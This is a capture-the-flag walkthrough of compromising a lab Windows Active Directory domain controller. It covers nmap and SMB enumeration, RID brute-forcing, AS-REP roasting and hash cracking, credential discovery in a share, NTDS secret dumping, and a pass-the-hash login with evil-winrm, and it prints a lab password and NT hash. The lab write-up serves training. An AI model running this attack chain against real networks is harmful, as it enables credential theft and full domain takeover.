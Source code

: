 we start by enumerating the target machine:

	sudo nmap -sV -p- 10.10.208.78  -Pn -O

output:

	53/tcp    open  domain        Simple DNS Plus
	88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-07-11 08:47:34Z)
	135/tcp   open  msrpc         Microsoft Windows RPC
	139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
	389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
	445/tcp   open  microsoft-ds?
	464/tcp   open  kpasswd5?
	593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
	636/tcp   open  tcpwrapped
	3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
	3269/tcp  open  tcpwrapped
	5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
	9389/tcp  open  mc-nmf        .NET Message Framing
	49665/tcp open  msrpc         Microsoft Windows RPC
	49668/tcp open  msrpc         Microsoft Windows RPC
	49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
	49670/tcp open  msrpc         Microsoft Windows RPC
	49683/tcp open  msrpc         Microsoft Windows RPC
	49693/tcp open  msrpc         Microsoft Windows RPC
	49705/tcp open  msrpc         Microsoft Windows RPC

there is smb open, we can try to list the shares available to everyone with the following command:

	smbclient -L \\\\\10.10.208.78\\

output:

 		Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        VulnNet-Business-Anonymous Disk      VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous Disk      VulnNet Enterprise Sharing

to download it we use the command below:

	get VulnNet-Business-Anonymous
	get VulnNet-Enterprise-Anonymous

there are useless .txt with some names but nothing special.
if we look the output from smb we can see that there is $IPC share is accessible, and it can be use to bruteforce the RID(Used by Active Directory) with the following command:

	crackmapexec smb 10.10.208.78  -u 'guest' -p '' --rid-brute /guest it could be a defualt account/

output:

	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  [*] Windows 10.0 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:False)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\guest: 
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  [+] Brute forcing RIDs
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  500: VULNNET-RST\Administrator (SidTypeUser)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  501: VULNNET-RST\Guest (SidTypeUser)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  502: VULNNET-RST\krbtgt (SidTypeUser)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  512: VULNNET-RST\Domain Admins (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  513: VULNNET-RST\Domain Users (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  514: VULNNET-RST\Domain Guests (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  515: VULNNET-RST\Domain Computers (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  516: VULNNET-RST\Domain Controllers (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  517: VULNNET-RST\Cert Publishers (SidTypeAlias)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  518: VULNNET-RST\Schema Admins (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  519: VULNNET-RST\Enterprise Admins (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  520: VULNNET-RST\Group Policy Creator Owners (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  521: VULNNET-RST\Read-only Domain Controllers (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  522: VULNNET-RST\Cloneable Domain Controllers (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  525: VULNNET-RST\Protected Users (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  526: VULNNET-RST\Key Admins (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  527: VULNNET-RST\Enterprise Key Admins (SidTypeGroup)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  553: VULNNET-RST\RAS and IAS Servers (SidTypeAlias)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  571: VULNNET-RST\Allowed RODC Password Replication Group (SidTypeAlias)
	SMB         10.10.208.78    445    WIN-2BO8M1OE1M1  572: VULNNET-RST\Denied RODC Password Replication Group (SidTypeAlias)

we have a bunch of users we can try to use impacket-GetNPUsers in order to retrieve the TGT of the users with the options set to  UF_DONT_REQUIRE_PREAUTH(Do not require Kerberos preauthentication):

	impacket-GetNPUsers VULNNET-RST/t-skid -no-pass  #found the right user after different tries

output:

	$krb5asrep$23$t-skid@VULNNET-RST:<REDACTED>

we use john to crack it 

	nano hash
	john hash -w=/usr/share/wordlists/rockyout.txt

we have the password of t-skid user, we can access on his smb shares with this command:

	smbclient  \\\\10.10.208.78\\NETLOGON -U t-skid

output:

	ResetPassword.vbs
	get ResetPassword.vbs

inside the vbs script there are other credentials, we can use them in order to retrieve the NTDS.DIT,SAM hashes and other credentials.

command:

	impacket-secretsdump -dc-ip 10.10.208.78 a-whitehat:bNdKVkjv3RR9ht@10.10.208.78

we have the admin's NThash  we can access with evil-winRM with this command:

	evil-winrm -i 10.10.113.15 -u Administrator -H c2597747aa5e43022a3a3049a3c3b09d

we're in and if we search inside we can retrieve the 2 flags.
